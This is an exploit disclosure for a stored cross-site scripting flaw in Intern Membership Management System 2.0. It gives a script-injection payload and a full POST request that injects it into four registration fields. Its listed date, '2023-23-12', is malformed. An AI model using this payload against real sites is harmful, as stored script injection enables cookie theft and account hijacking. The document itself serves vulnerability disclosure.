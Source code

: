 # Intern_Membership_Management_System-Stored_Cross_site_Scripting
+ **Exploit Title:** Intern_Membership_Management_System-Stored_Cross_site_Scripting
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/intern-membership-management-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/INTERN_MEMBERSHIP_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.5, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
Intern Membership Management System 2.0 allows Stored Cross-site Scripting via parameters 'userName', 'firstName', 'lastName', and 'userEmail' in "/intern/user_registration/".
Intern Membership Management System is vulnerable to a cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data.
An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. 
This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the user registration page: "http://localhost/intern/user_registration/"
+ Use this payload: `"><ScRiPt>confirm(document.domain)</ScRiPt>h0la`
+ Fill 'userName','firstName', 'lastName', '' and 'userEmail' parameters on the form and click 'Register' button.
+ The Stored XSS will be triggered.
+ Alerts will pop-up permanently.
+ Example request for 'userName', 'firstName', 'lastName', and 'userEmail' parameters:
```
POST /intern/user_registration/index.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 373
Origin: http://localhost
Connection: close
Referer: http://localhost/intern/user_registration/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

userName=%22%3E%3CScRiPt%3Econfirm%28document.domain%29%3C%2FScRiPt%3Eh0la&firstName=%22%3E%3CScRiPt%3Econfirm%28document.domain%29%3C%2FScRiPt%3Eh0la&lastName=%22%3E%3CScRiPt%3Econfirm%28document.domain%29%3C%2FScRiPt%3Eh0la&password=&confirm_password=&userEmail=%22%3E%3CScRiPt%3Econfirm%28document.domain%29%3C%2FScRiPt%3Eh0la&gender=Male&terms=on&register-user=Register
```

+ Example payload: `"><ScRiPt>confirm(document.domain)</ScRiPt>h0la`
![2](https://github.com/h4md153v63n/CVEs/assets/5091265/8c711e71-94df-48eb-98af-9b16fbbecd31)
![2_xss](https://github.com/h4md153v63n/CVEs/assets/5091265/1a45f2d0-4bfa-4a20-9b7e-59f8d6aba24d)
![2_xss-2](https://github.com/h4md153v63n/CVEs/assets/5091265/337eeddd-d66f-4dd9-8887-923637a2b680)
